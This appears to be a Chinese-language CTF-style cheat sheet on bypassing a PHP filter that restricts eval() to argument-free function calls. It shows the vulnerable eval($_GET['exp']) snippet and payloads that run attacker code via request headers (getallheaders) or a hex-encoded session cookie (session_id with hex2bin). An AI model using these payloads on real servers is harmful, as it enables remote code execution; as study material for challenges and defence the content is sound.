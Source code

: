 
---
### 一般这样

```php
<?php 
if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']){
eval($_GET['exp']); 
} ?>
```

### 常见绕过姿势

#### 1、getallheaders()
#### 获取请求头信息，返回数组

配合implode()---将数组转换成字符串

```
exp
?exp=eval(implode(getallheaders()));
```

#### 2、get_defined_vars()

##### 该函数的作用是获取所有的已定义变量，返回值也是数组。不过这个函数返回的是一个二维数组，所以不能与`implode`结合起来用。将`get_defined_vars()`的结果用`var_dump()`输出结果

用GET传入的参数会被显示在数组中的第一位，使用`current()`函数获取第一位，使用`end()`函数获取最后一个

#### 3、session_id()

`session_id()`可以用来获取/设置当前会话 ID。  
那么可以用这个函数来获取cookie中的`phpsessionid`了，并且这个值我们是可控的。  
但其有限制：
**文件会话管理器仅允许会话 ID 中使用以下字符：a-z A-Z 0-9 ,（逗号）和 - （减号）**

解决方法：将参数转化为16进制传进去，之后再用hex2bin()函数转换回来就可以了。

session_id必须要开启session才可以使用，所以我们要先使用session_start()

```
playload

?exp=eval(hex2bin(session_id(session_start())));
```